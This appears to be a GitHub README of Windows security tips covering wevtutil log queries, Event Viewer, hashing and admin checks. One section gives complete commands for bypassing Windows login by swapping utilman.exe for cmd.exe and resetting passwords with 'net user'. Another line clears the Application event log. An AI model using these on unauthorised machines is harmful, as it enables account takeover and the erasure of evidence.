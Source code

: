 # security
cool tricks to securing and some how a little forensics.keep in mind that win+x in windows os opens a menu bar that you can control so many other options too.

<ul>
<li>Wevtutil</li>
<li>Event Viewer</li>
<li>Bypass windows Login</li>
<li>Calculate hash of a File</li>
<li>Check if you are local Administrator</li>
</ul>

# Wevtutil
Enables you to retrieve information about event logs and publishers in powershell,cmd, and also git bash.

<ul>
<li>To see last 50 login in our device:

    wevtutil qe Security /c:50 /rd:true /f:text
  
<p>you should be administrator to run this command</p>
</li>
<li>Find the last 20 startup events in the System log:

    wevtutil query-events System /count:20 /rd:true /format:text /q:"Event[System[(EventID=12)]]"

</li>
<li>Display the status of the Application log:

    wevtutil gli Application

</li>
<li>Clear all the events from the Application log:

    wevtutil clear-log Application
    
</li>
</ul>

# Event Viewer
Event Viewer is a component of Microsoft's Windows operating system that lets administrators and users view the event logs on a local or remote machine.just type:

    eventvwr

# Recover windows without password
as you may know you can open accounts on any windows machine without any passwords by just a windwos bootable usb .this is why you should be aware of physical security.when installation go repair this pc and open command prompt and type this command.

    move c:\windows\system32\utilman.exe c:\ 

<p>c is directory that windows is installed,and maybe it is different in your pc.and then this command:</p>

    copy c:\windows\system32\cmd.exe c:\windows\system32\utilman.exe


<p>after all:</p>


    wpeutil reboot

<p>after the reboot  click on ease of use,CMD will opens then type:</p>

    net user

<p>after you saw users then the user you want to login with:</p>

    net user <desired user> <your password>

<p> you are in windows now!</p>

# Calculate hash Calculate hash of a File
to calculate hash (sha1.sha256,md5) of a given File just enter the path to that file and you have the hash.

# Check if you are local Administrator
to check if you are local Administrator just run this script

    check_admin.bat